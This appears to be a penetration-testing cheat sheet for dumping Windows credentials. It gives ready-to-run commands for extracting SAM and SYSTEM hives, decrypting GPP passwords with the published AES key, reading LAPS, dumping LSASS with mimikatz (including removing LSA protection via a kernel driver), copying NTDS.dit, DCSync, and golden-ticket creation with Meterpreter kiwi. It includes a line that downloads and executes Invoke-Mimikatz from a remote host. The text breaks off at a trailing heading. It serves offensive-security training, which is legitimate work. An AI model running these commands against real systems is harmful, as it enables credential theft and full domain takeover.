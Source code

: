 **DUMPING THE SAM:**

In order to dump the SAM, which stores the NTLM hashes for the local users on the machine we must first obtain a copy of the SAM and SYSTEM. Although the SAM is stored here "c:\Windows\System32\config\sam"
we cannot copy it directly, since it forms part of a running process. Additionally the SYSTEM has an exclusive lock.

1st method(create a shadow volume of the local hard drive with vssadmin): 

```
1. wmic shadowcopy call create Volume='C:\'
2. vssadmin list shadows
3. copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\windows\system32\config\sam C:\users\trike\Downloads\sam
4. copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\windows\system32\config\system C:\users\trike\Downloads\system
```

2nd Method(extracting the SAM and the SYSTEM from registry hives):

```
1. reg save HKLM\sam C:\users\trike\Downloads\sam
2. reg save HKLM\system C:\users\trike\Downloads\system
```
To dump the contents of the SAM, my preferred method(although there are others) is using impacket-secretsdump:

```
~# impacket-secretsdump -sam sam -system system local
```

**GROUP POLICY PREFERENCES(GPP):**

The passwords are encrypted using AES-256, however microsoft published this AES-256 key. As a solution, the MS14-025 security update removed the ability to create GPP containing passwords. Altough the ability
to create new GPP was removed, the existing GPP weren't deleted, so some of them may still exist in the wild.
Manual dump:

```
1. Get a copy of the password in base64, the GPP are stored in this SMB share: \\<DOMAIN>\SYSVOL\<DOMAIN>\Policies\   additionally the GPP must be accessible to all domain users
2. echo 'password_in_base64' | base64 -d | openssl enc -d -aes-256-cbc -K 4e9906e8fcb66cc9faf49310620ffee8f496e806cc057990209b09a433b66c1b -iv 0000000000000000
```

Automated dump with [Get-GPPPassword](https://github.com/SecureAuthCorp/impacket/blob/master/examples/Get-GPPPassword.py):

```
# with a NULL session
Get-GPPPassword.py -no-pass 'DOMAIN_CONTROLLER'

# with cleartext credentials
Get-GPPPassword.py 'DOMAIN'/'USER':'PASSWORD'@'DOMAIN_CONTROLLER'

# pass-the-hash
Get-GPPPassword.py -hashes 'LMhash':'NThash' 'DOMAIN'/'USER':'PASSWORD'@'DOMAIN_CONTROLLER'
```

**LAPS(Local Administtrator Password Solution):**

LAPS offered a secure and scalable way of remotely managing the local administrator password for domain-joined computers.

Dumping it using a powershell script [LAPSToolKit](https://github.com/leoloobeek/LAPSToolkit):

```
PS C:\> Import-Module .\LAPSToolkit.ps1

PS C:\> Get-LAPSComputers  -> to list all computers that are set up with LAPS

PS C:\> Find-LAPSDelegatedGroups  -> list groups that can read LAPS

PS C:\> Get-LAPSComputers  -> if we are logged in as a user that can read LAPS, it will retrun us with a cleartext password for the "Administrator" account of a computer.
```
(All this information can be retrieved using SharpHound and viewed with BloodHound)

**LSASS(Local Security Authority Subsytem Service):**

Since Microsoft’s implementation of Kerberos makes use of single sign-on, password hashes must be stored somewhere in order to renew a TGT request. In current versions of Windows, these hashes are stored in the Local Security Authority Subsystem Service (LSASS) memory space.

However, since LSASS runs as SYSTEM, we need admin privileiges in order to access its memory space.

1st method(using mimikatz, the commands here are meant to be thrown froma mimikatz shell):

```
To dump credentials:
1. privilege::debug
2. sekurlsa::logonpasswords

To dump TGT and TGS:
1. sekurlsa::tickets
2. sekurlsa::tickets /export
3. kerberos::ptt ticket.kirbi
```
(If you want to be stealthier, you can use [Invoke-Mimikatz](https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Invoke-Mimikatz.ps1)).

2nd method(using [Invoke-Mimikatz](https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Invoke-Mimikatz.ps1)):

```
1. PS C:\Windows\system32> (New-Object System.Net.WebClient).DownloadString('http://192.168.1.1/Invoke-Mimikatz.ps1') | IEX
2. PS C:\Windows\system32> Invoke-Mimikatz -Command "`"sekurlsa::logonpasswords`""

(Alternatively, we can append this line: Invoke-Mimikatz -Command "sekurlsa::logonpasswords"  at the end of the Invoke-Mimikatz.ps1 script, so that when you use the IEX sekurlsa::logonpasswords gets automatically executed and you don't have to fight with double quotes and backticks).
```

3rd method(using [MiniDump.cs](https://github.com/trike33/PEN-300-Code-Snippets/blob/main/Windows%20Credentials/MiniDump.cs)):

Using this method we will create a dump file, which is a snapshot of a given process.

```
C:\minidump.exe c:\windows\tasks\lsass.dmp
```
(Then you can parse this dump file with mimikatz from a computer with matching OS and architecture, as the computer where the dump file was created)

```
#From a mimikatz shell(note that this doesn't require debug privileges)
1. sekurlsa::minidump lsass.dmp
2. sekurlsa::logonpasswords
```

When the popularity of cached credential retrieving raised, Microsoft introduced 2 secuirty measures: LSA Protection and Windows Defender Credential Guard. The LSA protection added an additional process 
security layer, the Process Protected Light(PPL), which is placed on top of the highest integrity level. This means that SYSTEM level privileges aren't enough to dump the LSASS.

To solve this problem mimikatz relased the [mimidrv.sys](releases/tag/2.2.0-20220919)(go to releases and mimidrv.sys is located inside the .zip/.7z). To load this driver we must have this SeLoadDriverPrivilege additional privilege.

```
C:\Windows\system32> sc create mimidrv binPath= C:\inetpub\wwwroot\upload\mimidrv.sys type= kernel start= demand

C:\Windows\system32> sc start mimidrv

#From a mimikatz shell
1. !processprotect /process:lsass.exe /remove  -> Afterwards LSA is disabled, meaning that we can dump the LSASS using the method we best like
```

**NTDS:**

The NTDS.dit, is a database that is usually stored on the Domain Controllers. The NTDS.dit contains the NTLM hash for all the domain users, so it is a prime taget for an attacker. However, in order to be able to dump it you need to be Domain Admin or be local admin on the Domain Controller.

1st method(using vssadmin):

```
1. Create a shadow copy of the c:\ unit -> wmic shadowcopy call create Volume='C:\'     -> to list them -> vssadmin list shadows
2. Get a copy of the NTDS.dit -> copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\windows\ntds\ntds.dit c:\ntds.dit
3. Get a copy of the SYSTEM -> copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\windows\system32\config\system c:\system    -> or -> reg save HKLM\SYSTEM c:\system
4. Download them to our machine and use: impacket-secretsdump -system system -ntds ntds LOCAL
```

2nd method(using impacket-secretsdump, it has various execution methods: smbexec(psexec), wmiexec(DCOM) and mmcexec(DCOM), all this execution methods are explained [here](https://github.com/trike33/PEN-300-Code-Snippets/tree/main/Windows%20Lateral%20Movement)):

```
1. impacket-secretsdump -dc-ip <domain_controller_ip> domain/username:password@target_name
```
(note that this last method will be more time consuming that the 1st method)

**DcSync:**

The main advantatge of this techique is that is less noisy than dumping the NTDS
The domain controller receiving a request for an update does not verify that the request came from a known domain controller, but only that the associated SID has appropriate privileges.

In a nutshell, to be able to perform DcSync we must: be a domain admin or make the DcSync from a computer that has domain replication permissions.

```
#From a mimikatz shell

1. lsadump::dcsync /user:Administrator

or

2. lsadump::dcsync /domain:prod.corp1.com /user:prod\krbtgt
```

**Meterpreter:**

Although all the previous methods included in this document are "manually doing", metasploit has provided us with a meterpreter extension called kiwi capable of this most of this looting. 

Dump the SAM & the LSASS(if LSA is enabled you need ot disabled it first):

```
#From a meterpreter session
1. load kiwi
2. creds_all

Alternatively to dump only the SAM:
#From a meterpreter session
1. hashdump
```

To perform DcSync:

```
#From a meterpreter session
1. load kiwi
2. dcsync_ntlm contoso.com\krbtgt
```

To create and use a golden ticket:

```
#From a meterpreter session
1. load kiwi
2. golden_ticket_create -d contoso.com -u trike -s <sid_of_the_user_you_want_to_impersonate> -k <krbtgt_ntlm_hash> -t /root/Downloads/contoso.tck
3. kerberos_ticket_use /root/Downloads/contoso.tck
```

To read LAPS:

```
#From a meterpreter session
1. run post/windows/gather/credentials/enum_laps
```

Alternatively, you can use "kiwi_cmd" from a meterpreter shell to execute any mimikatz command:

```
1. load kiwi
2. kiwi_cmd "sekurlsa::logonpasswords"
```

Dumping the NTDS from metaspoit:

